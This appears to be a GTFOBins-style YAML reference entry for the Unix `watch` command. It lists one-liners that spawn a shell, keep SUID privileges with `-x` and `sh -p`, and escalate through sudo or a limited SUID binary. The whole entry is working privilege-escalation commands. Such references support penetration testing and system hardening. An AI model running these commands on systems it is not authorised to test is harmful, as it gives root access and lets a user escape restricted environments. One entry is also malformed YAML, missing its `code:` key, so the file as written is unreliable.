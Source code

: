 ```yaml
---
functions:
  shell:
    - code: watch -x sh -c 'reset; exec sh 1>&0 2>&0'
  suid:
    - description: This keeps the SUID privileges only if the `-x` option is present.
      code: ./watch -x sh -c 'reset; exec sh 1>&0 2>&0'
    - description: If `-x` does not properly keep elevated permissions. May have to add two `-p` flags for `sh`. 
      ./watch -x sh -p -c 'reset; exec sh -p 1>&0 2>&0'
  sudo:
    - code: sudo watch -x sh -c 'reset; exec sh 1>&0 2>&0'
  limited-suid:
    - code: ./watch 'reset; exec sh 1>&0 2>&0'
---
```

